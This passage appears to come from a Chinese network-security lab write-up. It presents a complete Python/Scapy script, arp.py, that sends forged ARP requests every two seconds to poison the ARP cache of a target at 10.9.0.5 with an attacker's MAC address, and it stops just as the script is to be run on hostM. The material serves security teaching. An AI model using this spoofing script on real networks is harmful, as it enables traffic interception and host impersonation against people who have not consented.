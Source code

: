 编写 `arp.py`：

```python
#!/usr/bin/python3 
from scapy.all import ARP, send
import time

def arp_spoof_with_request(target_ip, target_mac, spoof_ip, spoof_mac, interval=2):
    """
    使用ARP请求 (op=1) 实现ARP欺骗，伪装目标IP地址的MAC地址。
    
    参数：
    - target_ip: 欺骗目标的IP地址（发送ARP请求给该IP）
    - target_mac: 欺骗目标的MAC地址
    - spoof_ip: 欺骗的IP地址，即伪装成的IP
    - spoof_mac: 欺骗的MAC地址，即伪装成的MAC地址
    - interval: 发送ARP包的时间间隔（秒），默认每2秒发送一次
    """
    # 构建ARP请求包
    arp_request = ARP(op=1,             # op=1 表示ARP请求
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）

    print(f"开始ARP欺骗（请求方式）：将 {spoof_ip} 伪装成 {spoof_mac} 发送给 {target_ip}")
    
    try:
        # 持续发送ARP请求包，以保持欺骗效果
        while True:
            send(arp_request, verbose=False)
            print(f"已发送ARP欺骗请求包：{spoof_ip} -> {spoof_mac} 发送给 {target_ip}")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.5"        # 目标主机的IP地址
target_mac = "02:42:0a:09:00:05"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"         # 欺骗的IP地址，即伪装成此IP
spoof_mac = "02:42:0a:09:00:69"   # 欺骗的MAC地址，即伪装成此MAC

# 启动ARP欺骗
arp_spoof_with_request(target_ip, target_mac, spoof_ip, spoof_mac)


```

为了保证欺骗的持续性，我们每 $2s$ 发送一次欺骗请求包。

在 $hostM$ 上发送 `arp.py`：
